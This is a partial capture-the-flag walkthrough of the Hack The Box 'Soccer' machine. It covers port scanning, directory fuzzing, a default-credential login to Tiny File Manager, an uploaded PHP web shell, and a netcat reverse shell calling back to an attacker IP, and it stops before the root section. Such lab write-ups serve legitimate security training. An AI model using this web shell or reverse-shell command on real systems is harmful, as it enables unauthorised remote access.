

# Soccer

<figure><figcaption></figcaption></figure>

## User Flag
### Nmap
```shell
$ sudo nmap -sC -sV 10.10.11.194
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-21 13:29 CST
Nmap scan report for 10.10.11.194
Host is up (0.029s latency).
Not shown: 997 closed tcp ports (reset)                                                                                                                                                                                                    
PORT     STATE SERVICE         VERSION                                                                               
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                                                       
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)            
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)           
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)         
80/tcp   open  http            nginx 1.18.0 (Ubuntu)                                                                 
|_http-title: Did not follow redirect to http://soccer.htb/               
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                          
9091/tcp open  xmltec-xmlmail?                                                                                       
| fingerprint-strings:                                                                                               
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request                                                                                       
|     Connection: close                                                                                              
|   GetRequest:                                                                                                      
|     HTTP/1.1 404 Not Found                                                                                         
|     Content-Security-Policy: default-src 'none'                                                                    
|     X-Content-Type-Options: nosniff                                                                                
|     Content-Type: text/html; charset=utf-8                                                                         
|     Content-Length: 139                                                                                            
|     Date: Tue, 21 Nov 2023 19:30:10 GMT                                                                            
|     Connection: close                                                                                              
|     <!DOCTYPE html>                                                                                                
|     <html lang="en">                                                                                               
|     <head>                                                                                                         
|     <meta charset="utf-8">                                                                                         
|     <title>Error</title>                                                                                           
|     </head>                                                                                                        
|     <body>                                                                                                         
|     <pre>Cannot GET /</pre>                          
|     </body>                                          
|     </html>
|   HTTPOptions, RTSPRequest:                                                                                        
|     HTTP/1.1 404 Not Found                                                                                         
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Tue, 21 Nov 2023 19:30:10 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
.. SNIP
```
### Webpage

Image Link

### Direcotry Fuzzing
```shell
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://soccer.htb/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://soccer.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 30ms]
    * FUZZ: 

[Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 29ms]
    * FUZZ: tiny

:: Progress: [30000/30000] :: Job [1/1] :: 1315 req/sec :: Duration: [0:00:22] :: Errors: 2 ::
```

### Tiny File Manager

Image for Login


Poke around and see what Tiny File Manager is. Google what the default creds are.
Image for Default Creds

We try those and we are in
Image for Admin Logged In

### Webshell
```php
<?php system($_GET['toasty']) ?cat>
```

Image for Tiny Upload

We saw the path structure when we were uploading, we can use `curl` to verify.
```shell
$ curl -s http://soccer.htb/tiny/uploads/webshell.php?toasty=id                                                    
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```


### Reverse Shell

#### Command
```shell
$ curl -s http://soccer.htb/tiny/uploads/webshell.php?toasty=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.14.15%208908%20%3E%2Ftmp%2Ff

```
#### Listener
```shell
$ nc -lvnp 8908
listening on [any] 8908 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.194] 40606
bash: cannot set terminal process group (1046): Inappropriate ioctl for device
bash: no job control in this shell
www-data@soccer:~/html/tiny/uploads$ whoami
whoami
www-data
```

### No User flag yet
```shell
www-data@soccer:~$ ls -al /home
total 12
drwxr-xr-x  3 root   root   4096 Nov 17  2022 .
drwxr-xr-x 21 root   root   4096 Dec  1  2022 ..
drwxr-xr-x  3 player player 4096 Nov 28  2022 player
www-data@soccer:/home/player$ cd /home/player
www-data@soccer:/home/player$ ls
user.txt
www-data@soccer:/home/player$ cat user.txt
cat: user.txt: Permission denied
```

### Nginx Sites Enabled
```shell
www-data@soccer:~$ ls -al /etc/nginx/sites-enabled/
total 8
drwxr-xr-x 2 root root 4096 Dec  1  2022 .
drwxr-xr-x 8 root root 4096 Nov 17  2022 ..
lrwxrwxrwx 1 root root   34 Nov 17  2022 default -> /etc/nginx/sites-available/default
lrwxrwxrwx 1 root root   41 Nov 17  2022 soc-player.htb -> /etc/nginx/sites-available/soc-player.htb
www-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htb 
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
```

### Soc-player Webpage

Image Link to SocPlayer

Looks the same as default webpage but now we have new buttons at the top. We can see `Match`, `Login`, and `Signup`.

#### Match


#### Login


#### Signup
Image Signup

toasty@faker.com
toasty
toasty123!

## Root Flag